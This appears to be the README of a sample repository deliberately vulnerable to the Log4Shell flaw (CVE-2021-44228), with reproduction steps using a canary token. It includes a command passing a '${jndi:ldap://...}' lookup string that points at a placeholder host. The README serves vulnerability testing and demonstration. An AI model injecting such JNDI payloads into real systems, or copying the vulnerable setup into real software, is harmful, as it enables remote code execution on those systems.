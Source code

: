 # sample-vulnerable-log4j-direct-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Repro of vulnerability

First, visit http://canarytokens.org/ and create a new Log4Shell token (that emails you when it gets triggered). Then run the following command in this repository, where the `--args` value is the `${jndi:...}` value that you got when creating the canary token.

``` shell
./gradlew run --args='${jndi:ldap://some.host.example.com/}'
```

You will get an email that your canary token was triggered when you run that command (if the vulnerable log4j version is used).
